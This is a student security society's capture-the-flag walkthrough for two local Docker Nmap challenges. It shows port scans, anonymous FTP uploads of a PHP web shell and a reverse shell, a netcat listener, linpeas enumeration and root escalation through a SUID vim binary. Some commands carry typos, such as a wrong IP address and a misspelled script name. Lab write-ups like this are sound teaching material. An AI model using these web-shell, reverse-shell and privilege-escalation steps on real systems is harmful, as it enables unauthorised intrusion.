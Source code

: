 ```yaml
---
title: "ComSec Introduction Writeup"
date: 2020-10-21T12:40:28+01:00
draft: false
description: "A writeup for the introduction to ComSec challenges."

tags: ["welcome", "TryHackMe", "Nmap", "writeup"]
categories: ["Academic Year 2020-21"]

author: "Tiago Pascoal"
---
```


## Nmap 1

So first week of comsec I hope everyone enjoyed the slides and is prepared for the ctf.



after running this commands
```bash
git clone https://github.com/Cov-ComSec/ComSecMaterials.git
cd docker1 
docker-compose up
```
After running this commands you should see something like this in your terminal.

![dockerrunning](imgs/docker_is_working.png)

If you do see this it means you are ready for playing.
Minimize your shell open a new one and start scanning.

### Nmap Scan

```bash
sudo nmap -sC -sV 172.18.0.1
```
![nmap1scan](imgs/nmap_1_scan.png)

It looks like we have 4 ports open 21,25,80,8080
Lets navigate to http://172.18.0.1

If you look at your nmap scan you can see that u have something like "/ftp-uploads" so this a directory in the website let's see whats going on in there. We have a folder called a anonymous let's see what's inside. Hm a file called FTPflag.txt looks like we found the first flag. Good Job!

![ftpanonymous](imgs/ftp_anonymous.png)

So you have one flag.To be honest this flag works more like a hint to tell you what you should do after this. So if you go back to your nmap scan you will see that you have a line "21/tcp open ftp Pure-ftp" so we have a file transfer protocol it is always good to check as this can sometimes be used for file upload to the machine you are attacking. But what's the mean of ftp-anonymous if you do a fast google search you will find out that when this happens you can have acces to ftp server without having to know the credentials.So lets try to connect to the ftp.

```bash
ftp 172.18.0.1
```
You will be asked to input the Name. You just have to type anonymous to connect.
If you do a "ls" you will be able do see the a file called FTPflag.txt which is the same file you found in the website. You type help you will see as the commands that you can use inside the ftp, we want to upload p0wnyshell so that we can get access to the machine through the browser. For now you just need to know that we are using p0wnyshell as our reverse-shell. So "ctrl+c" to stop the ftp connection clone p0wny shell repository [P0wny-Shell](http://github.com/flozz/p0wny-shell.git){target=_blank}.
```bash
cd p0wny-shell
ftp 127.18.0.1
put shell.php
```
The last command is going to upload our shell.
If you go back to your browser and back to "/ftp-uploads/anonymous" you will see the file shell.php in there clicked and you will have p0wny-shell.![p0wny-shell](imgs/pwnyshell.png) So you succefully entered the machine. Let's look for the last flag. A easy way to find files on linux is using the file command.
```bash
find / -name "*.txt" 2>/dev/null
```
![findcommand](imgs/find_command.png)

Congratulations! Lets move to docker2

## Nmap 2

So to prove how important is nmap we setup a second nmap challenge but right now we not following the common ports as you can see in here. We mangled the ports 

![StandardPorts](imgs/commonports.pdf)

```bash
sudo nmap -sC -sV 192.168.42.1 -p-
```

![nmap2scan](imgs/nmap_2_scan.png)

In this challenge the ftp part is the same as the first challenge and the first flag is the same, the only difference is that the ports have been changed so if you to "http://192.168.42.1" the website is not going to load you need to instead look for something like this "192.168.42.1:8080".
So lets pass to the second part uploading files to ftp. We have ftp running on port 2121 (2121/tcp ccproxy-ftp) last time you use "ftp $ip" to connect this time that wont work cause you will need to specify the port os instead use something like this "ftp $ip port"
```bash
ftp 192.168.42.1 2121
```
Again use anonymous as login. 
In this challegne we introduced privesc so we will need a scrip to enumerate all te services that are being run on the machine, file permissions, file types, sym links ,etc.
There are 2 that are I know, LinEnum and linpeas. I prefer [linpeas](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/blob/master/linPEAS/linpeas.sh){target=_blank}, instead of cloning the repository what I did is I open my prefered text editor on my kali box and I just copy/pasted the script. Then I stopped the ftp connection I cd to the directory where I have linpeas, I started the connection again and use the "put linpeas.sh" to copy linpeas to the machine. Besides linpeas we will need a php reverse shell, cause p0wny shell is not going to work in this challenge. Another good resource to put in your bookmarks, [PentestMonkeys](https://github.com/pentestmonkey/php-reverse-shell){target=_blank} I did the same process with both linpeas and the [php-reverse-shell](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php){target=_blank} so open your editor and "ctrl+c / ctrl+v" put hte ip of your kali box in the line where you see "" \\change this" and upload the file to the ftp.
So right now you should see something like this 

![ftpfodler](imgs/uploads2.png)

Which means you ready. Open a terminal and start netcat.
```bash
nc -lvnp 1234
```
Go to "192.168.42.1:8080/ftp-uploads/php-reverse-shell.php" the site should be loading for ever. If you go back to your terminal you should have access to the box.
Tip: everytime I get a reverse shell I try to find out what user I am.
```bash
whoami
```
Lets not forget we are in /var/www , we need to copy our linpeas script to tmp folder.
```bash
cp linpeas.sh /tmp
chmod +x linpeas.sh
./linpeash.sh
```
Take a look at the output and try to find the SUID section. If you don't know SUID is a type of permission that you have on linux that let's the user run the file or binary. 

![linpeas](imgs/linpeas.png)

That last line mentioning vim.basic maybe we can do some research and see how we can exploit it. Fortunately there is a good resource called ["GTFOBINS"](https://gtfobins.github.io/){target=_blank} which is used for looking how we can exploit binaries look for vim and you will see that you can spawn a shell inside vim or using the command. 
```
:!/bin/sh
#or
vim -c ':!/bin/sh'
```
Now you are root!
```bash
cd /root
cat flag.txt
```
Congrats!
Any doubts contact ComSec Committee on discord.
Don't to submit your flags in [CTFD](https://cueh-comsec.ctfd.io/){target=_blank}
